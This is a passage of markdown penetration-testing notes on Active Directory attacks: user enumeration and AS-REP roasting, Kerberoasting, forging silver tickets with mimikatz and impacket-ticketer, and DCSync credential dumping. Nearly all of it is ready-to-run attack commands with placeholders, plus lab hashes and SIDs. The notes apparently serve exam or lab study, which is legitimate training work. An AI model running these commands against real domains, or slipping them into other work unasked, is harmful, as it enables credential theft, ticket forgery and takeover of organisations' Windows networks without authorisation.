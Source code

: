     - Username Enumeration
		- `Kali> impacket-GetNPUsers -dc-ip <IP> -no-pass -usersfile <username-file> <domain>/` → For existing user gives different message, while for non-existing some error or exception.
	- Brute Force
        - `Kali> netexec ldap <IP> -u 'username' -p 'password' --kdcHost <IP> --asreproast output.txt`
- **Kerberoasting** → For all when got initial foothold
    - While requesting service ticket from DC, no checks are performed to confirm whether user has any permissions to access service hosted by SPN. So, if we know SPN, we can request service ticket for it on behalf of user account with TGT. For this we should have our TGT.
	- If we are able to request the service ticket and decrypt it by SPN's password hash using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as Kerberoasting.
	- Kerberoasting
        - `Kali> sudo impacket-GetUserSPNs -request -dc-ip <IP> <domain>/<username>` → Password: `<password>` → This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs.
        - Alternative - `PS> .\Rubeus.exe kerberoast /domain:<domain> /dc:<IP> /creduser:<username> /credpassword:<password> /nowrap /outfile:hashes.kerberoast`
        - `Kali> hashcat --help | grep 'TGS-REP'` → `13100 | Kerberos 5, etype 23, TGS-REP`
	- Brute Force - 
		- `netexec ldap <IP> -u 'username' -p 'password' --kdcHost <IP> --kerberoast output.txt`
- **Silver Tickets** → Only when we got SPN hash password for service on target machine (we could get this hash from mimikatz or Kerberoasting that returns service user account hash (only possible with Rubeus))
    - If we have service account password hash, we can forge our own service ticket to access target resource with any permission we desire (even if not group member). This custom created ticket is silver ticket.
	- SPN password hash
        - `Mimikatz> privilege::debug`
		- `Mimikatz> sekurlsa::logonpasswords`
            - `iis_service:4d28cf5252d39971419580a51484ca09`
			- Can also get domain SID here  → `S-1-5-21-1987370270-658905905-1781884369-1109` (just remove last 4 digit of SID)
	- Domain SID
		- `whoami /user` → `S-1-5-21-1987370270-658905905-1781884369-1105` (Remove last 4 digit of SID)
	- Target SPN
		- HTTP SPN resource
	- Silver Ticket
        - `Mimikatz> kerberos::golden /domain:corp.com /user:jeffadmin /sid:S-1-5-21-1987370270-658905905-1781884369 /service:http /target:web04.corp.com  /rc4:4d28cf5252d39971419580a51484ca09 /ptt` → mimikatz will set appropriate group membership permissions. After creating ticket, jeffadmin will appear, to IIS application on target system, to be local administrator and member of several high-privilege groups including Domain Admins, even if he isn't.
		- Alternative
            - `impacket-ticketer -domain 'corp.com' -spn 'http' -domain-sid 'S-1-5-21-1987370270-658905905-1781884369' -nthash '4d28cf5252d39971419580a51484ca09' -dc-ip web04.corp.com jeffadmin`
        - `PS> klist` → Ticket list will contain new TGS ticket.
- **Domain Controller Synchronization (DCSync attack)** → For all when got initial foothold
    - Usually there are more than one DC in production environment. One DC may request an update for a specific object on another DC.
	- If we attempt to issue a rogue update request to DC from user with certain rights it will succeed. Following are rights requirement for user -
        - User needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights
		- User should be members of the Domain Admins, Enterprise Admins, and Administrators groups. By default above mentioned rights are assigned to member of these groups. (This is vital)
	- `Mimikatz> lsadump::dcsync /user:<domain>\<target-user>` → Currently we are logged in as jeffadmin who is member of Domain Admins groups, so have necessary rights. This command is requesting credentials for domain user dave.
	- Alternative - `Kali> impacket-secretsdump -just-dc-user <target-user> <domain>/<username>:<password> <IP>`